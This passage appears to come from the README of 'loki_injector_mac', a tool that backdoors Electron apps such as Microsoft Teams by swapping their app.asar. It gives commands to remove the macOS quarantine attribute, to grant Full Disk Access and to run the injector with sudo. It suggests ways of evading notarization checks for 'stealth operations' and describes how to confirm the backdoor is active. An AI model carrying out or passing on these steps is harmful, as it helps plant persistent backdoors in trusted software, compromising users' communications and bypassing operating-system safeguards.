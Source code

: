 ```bash
# Remove quarantine attribute
xattr -d com.apple.quarantine loki_injector_mac

# Or allow in System Preferences
# System Preferences → Security & Privacy → Allow
```

### Full Disk Access
For some app directories, you may need to grant Full Disk Access:

1. System Preferences → Security & Privacy → Privacy
2. Full Disk Access
3. Add Terminal (or your shell)

### Notarization Bypass
For stealth operations, consider:
- Code signing with valid Apple Developer ID
- Notarizing the binary
- Using alternative delivery methods

## 📁 File Details

```bash
$ file loki_injector_mac
loki_injector_mac: Mach-O 64-bit executable arm64

$ ls -lh loki_injector_mac
-rwxr-xr-x  1 user  staff   4.2M Oct 20 06:35 loki_injector_mac
```

## 🧪 Testing

### Test in Safe Environment

```bash
# Create test VM with macOS
# Or use isolated macOS machine

# Install target app
brew install --cask microsoft-teams

# Run injector
sudo ./loki_injector_mac

# Verify injection
ls -la "/Applications/Microsoft Teams.app/Contents/Resources/"
# Should see: app.asar.backup

# Test backdoor
open "/Applications/Microsoft Teams.app"
# Press Cmd+Option+I for DevTools
# Look for [Loki] messages in console
```

